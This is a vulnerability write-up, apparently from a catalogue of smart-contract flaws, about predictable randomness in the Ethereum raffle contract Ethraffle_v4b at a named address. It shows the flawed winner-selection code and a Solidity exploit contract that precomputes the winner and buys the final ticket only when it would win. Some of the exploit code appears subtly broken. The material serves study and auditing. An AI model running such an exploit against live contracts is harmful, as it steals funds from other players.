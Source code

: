Ethraffle_v4b
======
https://etherscan.io/address/0x9A3dA065e1100a5613dc15b594f0F6193B419E96#code

Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for Ethraffle, an Ethereum gambling game, sells tickets and after the last ticket in a round was sold randomly generates a winner from all the buyers who will claim the price, generates a random value that is predictable by attacker. The developer wrote a `chooseWinner()` function that uses `block coinbase` as the seed. This can be predicted by writing the same random function code in an exploit contract to determine the `winningNumber` value, thus the attacker can always win.

Related code
------

    function buyTickets() payable public {
        ......
        // Choose winner if we sold all the tickets
        if (nextTicket == totalTickets) {
            chooseWinner();
        }
        ......
    }
    
    function chooseWinner() private {
        address seed1 = contestants[uint(block.coinbase) % totalTickets].addr;
        address seed2 = contestants[uint(msg.sender) % totalTickets].addr;
        uint seed3 = block.difficulty;
        bytes32 randHash = keccak256(seed1, seed2, seed3);

        uint winningNumber = uint(randHash) % totalTickets;
        address winningAddress = contestants[winningNumber].addr;
        
        ......
        
        winningAddress.transfer(prize);
    }

Details
------
After all tickets in a round(50 ticket for a round) was sold, `chooseWinner()` randomly generates a winner from all the buyers who will claim the price. However, `block.coinbase`, `block.difficulty` and the mapping `contestants` are all readable from etherchain, so the result can be determined in an attack contract.

Exploit
------
    contract Exploit{
    
        Ethraffle_v4b target;
        
        struct Contestant {
            address addr;
            uint raffleId;
        }
        //The data of this mapping can be accessed from the chain.
        mapping (uint => Contestant) contestants;
        
        uint constant totalTickets = 50;
        
        function Exploit(address _target) public payable{
            target = Ethraffle_v4b(_target);
        }
    
        function attack(uint256 _amount) public payable{
        
            uint current_sold = target.nextTicket;
            if(current_sold + 1 == totalTickets){
                address seed1 = contestants[uint(block.coinbase) % totalTickets].addr;
                address seed2 = contestants[uint(this.address) % totalTickets].addr;
                uint seed3 = block.difficulty;
                bytes32 randHash = keccak256(seed1, seed2, seed3);
                uint winningNumber = uint(randHash) % totalTickets;
                
                if(winningNumber + 1 == totalTickets){
                    target.buyTickets.value(_amount)();
                    msg.sender.transfer(this.balance);
                }

            }
            
        }
    }
